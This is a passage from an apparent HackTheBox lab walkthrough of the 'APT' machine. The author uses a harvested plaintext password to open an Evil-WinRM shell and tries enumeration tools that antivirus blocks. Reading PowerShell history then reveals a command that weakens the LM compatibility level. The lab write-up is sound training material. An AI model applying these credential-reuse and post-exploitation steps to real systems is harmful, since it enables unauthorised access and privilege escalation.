 

We found credentials in the HKCU regsitry hive for the user "henry.vinson_adm". Let's try to login via Evil-Winrm

```shell
┌──(sid㉿kali)-[~/…/hackthebox/windows-machines/apt/smb] 
└─$ evil-winrm -i apt.htb -u henry.vinson_adm -p 'G1#Ny5@2dvht'

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\henry.vinson_adm\Documents> whoami
htb\henry.vinson_adm
*Evil-WinRM* PS C:\Users\henry.vinson_adm\Documents>

```


Unable to run winpeas, can't run nc.exe, can't run a meterpreter exe. After enumerating the C:\Program Files folder shows us that LAPS is installed on the system and on googling LAPS exploit there are a few interesting articles but none seem to work here.  


```shell
*Evil-WinRM* PS C:\Users\henry.vinson_adm\Documents> .\winPEAS.exe
Program 'winPEAS.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted softwareAt line:1 char:1
+ .\nc.exe
+ ~~~~~~~~.
At line:1 char:1
+ .\nc.exe
+ ~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed

```

Let's have a look at powershell console history.

```shell
*Evil-WinRM* PS C:\Users\henry.vinson_adm\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline> dir 
 
 
    Directory: C:\Users\henry.vinson_adm\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline 
 
 
Mode                LastWriteTime         Length Name 
----                -------------         ------ ---- 
-a----       11/10/2020  10:58 AM            458 ConsoleHost_history.txt 
 
 
*Evil-WinRM* PS C:\Users\henry.vinson_adm\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline> type ConsoleHost_history.txt 

$Cred = get-credential administrator
invoke-command -credential $Cred -computername localhost -scriptblock {Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" lmcompatibilitylevel -Type DWORD -Value 2 -Force}
```

